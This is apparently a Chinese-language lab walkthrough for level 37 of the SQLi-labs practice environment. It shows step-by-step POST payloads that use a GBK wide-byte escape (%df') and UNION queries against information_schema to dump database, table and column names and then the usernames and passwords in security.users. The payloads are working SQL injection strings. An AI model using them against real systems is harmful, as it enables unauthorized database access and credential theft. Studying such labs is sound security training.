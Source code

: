 ```yaml
---
title: Less - 37
date: 2023-03-20T18:11:37Z
lastmod: 2023-03-20T18:26:46Z
---
```


# Less - 37

---

# 通关教程

---

## 1、判断闭合方式

---

```http
uname=admin'&passwd=admin&submit=Submit
```

​![image](assets/image-20230320181304-nrrfekc.png)​

```http
uname=admin&passwd=admin'&submit=Submit
```

​![image](assets/image-20230320181339-9nudtox.png)​

用户名和密码的位置单引号都被转义，直接查看源代码查看是否为GBK编码

​![image](assets/image-20230320181511-c6u0ruk.png)​

确实使用了GBK编码，在单引号前面加入%df让单引号成功逃逸

---

## 2、查看当前库

---

```http
uname=a%df' union select 1,database()#&passwd=admin&submit=Submit
```

​![image](assets/image-20230320181936-i2il4qi.png)​

---

## 3、查看security库下的所有表

---

```http
uname=a%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#&passwd=admin&submit=Submit
```

​![image](assets/image-20230320182036-42gn8b0.png)​

---

## 4、查看users表下的所有字段

---

```http
uname=a%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230320182208-vqy0vz8.png)​

---

## 5、查看username,password字段下的所有值

---

```http
uname=a%df' union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230320182644-nd6naiz.png)​

‍
